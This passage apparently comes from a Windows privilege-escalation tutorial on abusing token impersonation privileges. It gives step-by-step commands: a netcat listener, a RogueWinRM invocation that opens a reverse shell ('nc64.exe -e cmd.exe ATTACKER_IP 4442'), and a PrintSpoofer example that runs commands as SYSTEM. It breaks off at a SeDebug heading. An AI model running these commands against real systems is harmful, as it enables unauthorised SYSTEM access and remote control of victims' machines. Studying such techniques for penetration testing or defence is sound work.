 These privileges allow a process to impersonate other users.

### How Token Impersonation Works

In Windows, services often need to perform actions on behalf of users. The impersonation privileges allow a service to "borrow" the access token of a connecting user:

1. User authenticates to a service
2. Service with impersonation privileges can use the user's token
3. Service can perform actions with the user's security context

### Common Vulnerable Accounts

* LOCAL SERVICE
* NETWORK SERVICE
* IIS Application Pool Identities (e.g., "iis apppool\defaultapppool")

### Exploitation with RogueWinRM

The RogueWinRM attack exploits the fact that the BITS service connects to port 5985 (WinRM) using SYSTEM privileges when started.

1. Verify impersonation privileges:
   ```cmd
   whoami /priv
   ```

2. Setup a listener on your attack machine:
   ```bash
   nc -lvp 4442
   ```

3. Run the RogueWinRM exploit:
   ```cmd
   RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
   ```

4. When the BITS service starts, it will connect to your fake WinRM service, allowing you to impersonate the SYSTEM user

### Alternative: Potato Attacks

Several "Potato" attacks exist that abuse impersonation privileges:

* **JuicyPotato** - Works on Windows 7, 8, 10, Server 2008, and Server 2012
* **RoguePotato** - Works on newer systems with some adjustments
* **PrintSpoofer** - Exploits the Print Spooler service

Example with PrintSpoofer:
```cmd
PrintSpoofer.exe -i -c "cmd /c whoami > C:\temp\whoami.txt"
```

## SeDebug Exploitation

SeDebug allows you to debug any process, including those run by SYSTEM.
